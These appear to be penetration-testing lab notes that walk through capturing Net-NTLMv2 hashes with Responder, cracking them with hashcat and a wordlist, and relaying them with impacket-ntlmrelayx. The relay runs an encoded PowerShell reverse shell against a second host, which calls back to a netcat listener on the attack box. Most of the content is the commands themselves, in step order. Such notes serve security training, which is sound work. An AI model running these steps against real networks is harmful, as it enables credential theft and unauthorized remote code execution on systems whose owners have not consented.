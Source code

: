 Steps:
1. Access target machine 
2. Verify local ip address and start responder locally
3. On remote machine, connect back to a random fake dir
	- Raw hash wil lshow up in responder -> save to .hash file 
4. obtain hash -> verify hash type in hashcat -> crack 

```
1. nc 192.168.50.211 4444

2. ip a
   sudo responder -I tun0

3. dir \\192.168.119.2\randomdir

4. hashcat --help | grep -i "ntlm"
   hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force

```

##### Relaying Net-NTLMv2
- Can relay NTLMv2 hashes if theyre too complex to crack 
- Attack CONOP
	- Authenticate to machine 1 
	- Set up relay server on attack box pointing to machine 2 
	- Force authentication back to attack box
- Use ntlmrelayx from Impacket library for relay attacks 

Steps:
1. Authenticate to machine 1 
2. Start listener on attack box
3. Start relay server on attack box 
	- --no-http-server to disable HTTP if using SMB
	- -smb2support to enable SMB2 functionality 
	- -c quoted command to be run on machine 2   
	- powershell command is a base64 encoded reverse shell
4. From machine 1, force SMB request to attack box

```
1. nc 192.168.50.211 5555

2. nc -nvlp 8080 

3. sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc <base_64_encoded_command>"

4. dir \\192.168.119.2\test
```